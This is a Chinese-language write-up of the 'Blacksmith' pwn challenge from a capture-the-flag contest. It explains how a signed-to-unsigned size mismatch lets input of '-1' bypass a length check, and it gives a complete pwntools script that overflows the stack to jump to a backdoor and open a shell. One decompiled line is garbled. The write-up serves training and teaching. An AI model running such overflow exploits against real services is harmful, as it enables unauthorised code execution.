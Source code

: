 ## Blacksmith

- 题目描述：

  > 世界需要你去拯救！不过在那之前，先让铁匠为你打造一把称手的兵器吧。
  >
  > By *Mercurio*
  
 - 题目附件：[blacksmith](https://cdn.jsdelivr.net/gh/SignorMercurio/MetasequoiaCTF@master/Pwn/Blacksmith/blacksmith)

 - 考察点：无符号整数

 - 难度：简单

 - 初始分值：100

 - 最终分值：85

 - 完成人数：5

### 程序分析

忘记密码的函数如下：

```c
int forget(){
  size_t nbytes; // [rsp+8h] [rbp-48h]
  char buf; // [rsp+10h] [rbp-40h]

  nbytes = 0LL;
  puts("Forging...");
  puts("What's the size of this sword's name?");
  scanf("%d";
  if ( nbytes > 63 )
    return puts("The name is too long!");
  puts("And the name is?");
  read(0, &buf, nbytes);
  return puts("Here you are, the new sword!\n");
}
```

其中`read`的第三个参数是无符号整数，而`nbytes`是有符号整数，所以输入负数可以绕过长度检查，然后读大量数据造成栈溢出，执行程序中的后门

### exp

```python
#!/usr/bin/python
#coding=utf-8
#__author__:TaQini

from pwn import *

local_file  = './blacksmith'
local_libc  = '/lib/x86_64-linux-gnu/libc.so.6'
remote_libc = local_libc # '../libc.so.6'

is_local = False
is_remote = False

if len(sys.argv) == 1:
    is_local = True
    p = process(local_file)
    libc = ELF(local_libc)
elif len(sys.argv) > 1:
    is_remote = True
    if len(sys.argv) == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)
    libc = ELF(remote_libc)

elf = ELF(local_file)

context.log_level = 'debug'
context.arch = elf.arch

se      = lambda data               :p.send(data) 
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
info_addr = lambda tag, addr        :p.info(tag + ': {:#x}'.format(addr))

def debug(cmd=''):
    if is_local: gdb.attach(p,cmd)

# info
# gadget
prdi = 0x0000000000400b23 # pop rdi ; ret

# elf, libc

# rop1
offset = 72
payload = 'A'*offset
payload += p64(0x4007D6)

sla('Your choice > ','1')
sla(' name?\n','-1')
ru('And the name is?\n')
debug()
sl(payload)

# debug()
# info_addr('tag',addr)
# log.warning('--------------')

p.interactive()
```

